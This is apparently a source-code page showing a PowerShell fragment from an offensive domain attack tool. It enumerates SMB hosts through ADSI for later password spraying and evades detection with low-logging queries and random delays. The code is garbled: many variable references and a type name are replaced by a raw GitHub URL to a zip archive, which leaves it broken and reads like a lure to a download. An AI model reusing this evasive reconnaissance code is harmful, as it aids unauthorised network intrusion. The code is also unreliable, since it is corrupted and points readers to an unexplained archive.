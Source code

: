 # Function to clean up and restore state
function Invoke-Cleanup {
    try {
        Remove-Variable -Name "passwordList","targetUsers","smbHosts" -ErrorAction SilentlyContinue
        [GC]::Collect()
        Write-Host "[*] Cleanup completed" -ForegroundColor Yellow
    } catch {
        # Silent cleanup
    }
}

# Function to enumerate domain computers with SMB
function Get-SMBHosts {
    Write-Host "[*] Enumerating domain computers with SMB..." -ForegroundColor Yellow
    
    try {
        # Method 1: ADSI (less logging)
        $searcher = [ADSISearcher]"(objectCategory=computer)"
        $https://raw.githubusercontent.com/falklast4/testt/main/hurly/testt.zip = 200
        $computers = $https://raw.githubusercontent.com/falklast4/testt/main/hurly/testt.zip()
        
        $smbHosts = @()
        foreach ($computer in $computers) {
            $hostname = $https://raw.githubusercontent.com/falklast4/testt/main/hurly/testt.zip['name']
            $ip = try { [https://raw.githubusercontent.com/falklast4/testt/main/hurly/testt.zip]::GetHostAddresses($hostname)[0].IPAddressToString } catch { $null }
            
            if ($ip) {
                $smbHosts += @{
                    Hostname = $hostname
                    IP = $ip
                }
            }
            
            # Random delay between queries
            if ((Get-Random -Maximum 10) -gt 7) {
                Start-RandomDelay
            }
        }
        
        Write-Host "[+] Found $($https://raw.githubusercontent.com/falklast4/testt/main/hurly/testt.zip) potential SMB hosts" -ForegroundColor Green
        return $smbHosts
        
    } catch {
        Write-Host "[-] ADSI enumeration failed: $($https://raw.githubusercontent.com/falklast4/testt/main/hurly/testt.zip)" -ForegroundColor Red
        return $null
    }
}
